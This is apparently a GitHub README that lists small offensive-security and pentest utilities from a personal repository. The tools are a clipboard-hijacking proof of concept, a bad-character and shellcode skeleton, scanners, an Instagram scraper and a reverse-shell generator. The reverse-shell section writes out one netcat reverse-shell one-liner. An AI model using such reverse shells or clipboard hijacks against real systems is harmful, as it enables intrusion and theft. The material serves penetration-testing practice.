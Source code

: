# tidbits
Collection of small miscellaneous and/or interesting stuff that I might need again

### MaliciousCopyPaste.html
Small javascript PoC to hijack victims clipboard when they copy from site.

### RPyCenum.py
Script to pull some info out of RPC services. Written ages ago to deal with an HTB box that closed connections very quickly, cant remember which.

### bof\_bad\_chars\_skeleton.py
Mainly just offers a lazy way to generate string of all characters for bad char checking  
Also has a short /bin/sh shellcode because it is handy

### crtsh\_search.py
Feed in a domain as an argument and it will search it on crt.sh, returning a list of all unique subdomains in the response

### instagrabber.py
Quickly written script that scrapes images from specified instagram account. Very basic, no error checking, doesnt dl videos or stories.

```
usage: instagrabber.py [-h] [-u USER] [-s SESSIONID] [-o OUT]

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER  unique profile name of account to scrape
  -s SESSIONID, --sessionid SESSIONID
                        session id cookie value
  -o OUT, --out OUT     folder to save images
```

### ipexpander.py
Usage: `python3 ipexpander.py <ip range/file>`

Will read in an ip range or a file containing one or more ip addresses/ranges and output a list of all unique ip addresses

### netscan.sh
Usage: `./netscan.sh <IP>`

Performs a full tcp scan to determine open ports, followed by detailed scan on those ports and (if passwordless sudo available) top 15 UDP ports. Saves outputs and compiles list of open services for the host as well as appending to a master file (intended for multi-threaded running against a range using `parallel`)

### rsg.sh
Usage: `./rsg.sh <LHOST> <LPORT>`
  
A simple bash script to take input and output a bunch of reverse shell 1-liners. Not very original but here we go.   
Note: Does not include super basic cmds such as `nc -e /bin/sh 10.10.10.10 1337`

### sort_domains.py
Reads in a file containing a list of domains and prints them properly sorted to stdout

